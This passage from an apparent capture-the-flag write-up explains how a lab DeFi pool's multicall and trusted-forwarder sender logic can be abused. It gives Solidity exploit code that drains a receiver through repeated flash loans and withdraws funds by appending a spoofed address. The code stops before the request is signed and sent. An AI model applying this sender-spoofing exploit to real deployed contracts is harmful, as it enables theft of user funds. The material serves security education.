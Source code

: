 We control both `data` and `from`, but `from` is strictly constrained because we would need access to the private key to sign for someone else. `data` is a free variable, so maybe we could construct it in such a way that `_msgSender` returns the address of `feeReceiver`. (Un)fortunately, `_msgSender` takes this into account by always selecting the last 20 bytes which matches the `from` field instead. We're missing a piece of the puzzle: `Multicall`.


```solidity
    function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = Address.functionDelegateCall(address(this), data[i]); // **DANI: Note `data` getting passed in!**
        }
        return results;
    }
```

`Multicall` uses OZ's `functionDelegateCall` which wraps `address.delegatecall`. This function keeps the `sender` and `value` fields the same but overwrites the transaction's `data` field. We can use this disjoint between `multicall` and `_msgSender` to withdraw from `feeReceiver`'s account!

Exploit time. We build a `Request` we send to `BasicForwarder.execute` that we want relayed to `NaiveReceiverPool.multicall`. The argument `bytes[] calldata data` we send will 11 total calls: 10 to `flashLoan` and 1 to `withdraw`. The `flashLoan` calls will use the `receiver`'s account so they have to pay the 1 WETH fee, thus depositing all their WETH into `feeReceiver`'s account. For the `withdraw` call, we'll append the `feeReceiver`'s address to the end like `BasicForwarder` would.

```solidity
    function test_naiveReceiver() public checkSolvedByPlayer {
        /**
         * 1. Create 10 packed calls to flashloan with the receiver to drain the accounts (abi.encodeCall)
         * 2. Make a final packed call to withdraw from deployer (abi.encodePacked)
         * 3. Encode all of that with a multicall encodeCall
         * 4. Create a Forwarder request with that calldata
         * 5. Pack and hash the request
         * 6. Pack the signature
         * 7. Send to forwarder
         */

        // 1.
        bytes[] memory packed_calls = new bytes[](11);

        for(uint256 i=0; i < 10; i++) {
            packed_calls[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, ""));
        }

        // 2.
        packed_calls[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_RECEIVER + WETH_IN_POOL, payable(recovery))), bytes32(uint256(uint160(deployer))));

        // 3.
        bytes memory top_level_call = abi.encodeCall(Multicall.multicall, packed_calls);

        // 4.
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30000000,
            nonce: forwarder.nonces(player),
            data: top_level_call,
            deadline: 1 days
        });
```